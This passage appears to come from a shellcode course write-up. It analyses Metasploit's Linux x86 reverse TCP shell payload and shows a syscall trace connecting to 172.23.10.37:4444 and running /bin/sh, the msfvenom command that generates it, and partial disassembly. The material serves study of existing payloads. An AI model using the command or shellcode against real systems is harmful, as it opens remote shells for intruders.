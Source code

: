 ```
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 621418412 (host=172.23.10.37);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

With `ndisasm`, we can disassemble the shellcode produced by msfvenom:
```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.23.10.37 LPORT=4444 | ndisasm -b32 - > shell_reverse_tcp.asm
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes

slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ cat shell_reverse_tcp.asm
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
00000018  68AC170A25        push dword 0x250a17ac
0000001D  680200115C        push dword 0x5c110002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
```